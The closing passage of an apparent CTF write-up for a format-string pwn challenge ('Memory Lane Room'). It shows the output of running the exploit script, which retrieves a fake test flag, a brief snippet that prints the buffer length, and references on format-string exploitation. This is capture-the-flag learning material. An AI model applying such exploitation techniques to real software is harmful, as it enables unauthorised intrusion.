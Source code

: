 ```bash
$ python pwn_tdmr.py
[*] '/mnt/hgfs/CTF-apr-23/pwn_tdmr/challenge/tdmr'
b"\x1b[1;34m\n\nYou can only watch one memory at a time so choose wisely!\n\nInitializing interface..\n\n\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\n\xe2\x96\x91                      \xe2\x96\x91\n\xe2\x96\x91   Memory Lane Room   \xe2\x96\x91\n\xe2\x96\x91                      \xe2\x96\x91\n\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\n\xe2\x96\x91                      \xe2\x96\x91\n\xe2\x96\x91  1. Childhood        \xe2\x96\x91\n\xe2\x96\x91  2. High School      \xe2\x96\x91\n\xe2\x96\x91  3. Kira's marriage  \xe2\x96\x91\n\xe2\x96\x91  4. Exit             \xe2\x96\x91\n\xe2\x96\x91                      \xe2\x96\x91\n\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\n\n>> "
b'\nTo unlock this memory you must be a privileged user.\n\nInsert your username to verify it: '
Buf len: 322419524(0x1337bb44)
b' You unlocked a core memory! You can take a look with this passphrase:\x1b[0m HTB{f4k3_fl4g_4_t35t1ng}\n'

```

<div class="box-note">
Because we would be writing a huge amount of bytes, that could easily lead to a crash. To avoid this, we’re only printing the last 100 bytes.
</div>

```c
print("Buf len: %d(0x%x)" % (len(buf), len(buf)))
print(buf[-100:])
```

## References

* [fgets() Deprecated and dangerous](http://www.crasseux.com/books/ctutorial/fgets.html)
* [Exploiting Format String Vulnerabilities - scut / team teso](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
* [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)
* [Impact of x64 calling convention in format string exploitation](https://nixhacker.com/case-of-format-string-in-64-bit-is-it-still-critical/)
* [How can a format string vulnerability be used to write a specific string into memory?](https://reverseengineering.stackexchange.com/questions/4487/how-can-a-format-string-vulnerability-be-used-to-write-a-specific-string-into-me)
* [64-bit program format string vulnerability](https://ctf-wiki.mahaloz.re/pwn/linux/fmtstr/fmtstr_example/)
* [Python Hexdump module](https://gist.github.com/NeatMonster/c06c61ba4114a2b31418a364341c26c0#simple-hexdump)
